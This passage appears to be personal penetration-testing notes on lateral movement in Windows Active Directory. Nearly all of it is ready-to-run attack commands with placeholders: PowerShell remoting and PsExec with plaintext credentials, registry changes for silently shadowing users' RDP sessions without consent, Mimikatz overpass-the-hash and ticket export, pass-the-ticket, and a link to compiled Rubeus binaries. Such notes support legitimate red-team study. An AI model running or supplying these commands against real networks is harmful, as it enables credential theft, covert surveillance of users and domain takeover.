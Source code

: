
```Powershell
$username = '{domain_user}';
$password = '{password}';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

New-PSSession -ComputerName {target} -Credential $credential
Enter-PSSession {PSSession_ID_returned}
```

**PsExec**
- Tool used to replace telnet-like applications and provide remote execution of processes
- From [PsTools](https://download.sysinternals.com/files/PSTools.zip)
- Requires:
	- Local Administrator
	- `ADMIN$` share available (on by default)
	- File and Printer sharing (on by default)
- `./PsExec64.exe -i  \\{dnshostname} -u {domain}\{domain_user} -p {password} cmd`

**SMB**
- Domain trusts can be abused to view internal SMB shares
  - `net view //{dnshostname_or_IP} /all`

**Outbound RDP sessions**
- Assume a user has RDP'd into another system from an owned box
- We can shadow the existing sessions using the following as Administrator:
  - `reg add "\\LOCALHOST\HKLM\Software\Policies\Microsoft\Windows NT\Terminal Services" /V Shadow /T REG_DWORD /D 4 /F`
  - `query user`
    - Find the ID of the user session to shadow
  - `mstsc /shadow:4 /noConsentPrompt`

## NTLM/Kerberos Pivoting

**Overpass the Hash**
- Use an NTLM user hash to gain a full Kerberos TGT to get a TGS
- Assumes we own a server that has a domain user's hash
- This can act as `RunAs` but for a domain user's hash 
- Performed using Mimikatz
	- `sekurlsa::pth /user:{domain_user} /domain:{domain} /ntlm:{compromised_hash} /run:powershell`
- To get a Kerberos ticket, we run something in the new powershell window 
	- `net use \\files04`
- Once we have the ticket, we can just use PsExec to run commands on the remote systems using the compromised user
	- `PsExec.exe \\{dnshostname} powershell`
	- This only worked as the _ACTUAL_ `Administrator` local user, not just an administrative user
		- Need to be able to write to C:\Windows
		- We can just change the local Administrator user if we have an administrative user

**Pass the Ticket**
- TGTs only work on the machine they're created for, whereas TGSs offer flexibility
- Export current in-memory tickets with `sekurlsa::tickets /export`
	- This exports all tickets in `.kirbi` format in the same file directory, ls to find the ticket names (among other info)
	- We can then pick the desired ticket by passing the ticket name
		- `kerberos::ptt {ticket_name}`
	- If using these to access file shares, running something like `ls \\web04\` will just give an error. Type `ls \\web04\` and press tab (or just `Find-DomainShare` with PowerView)
- **Rubeus**
  - [Compiled binary](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
  - Dumping and using tickets is one of Rubeus's strong suits
  - `Rubeus.exe triage` to list available tickets
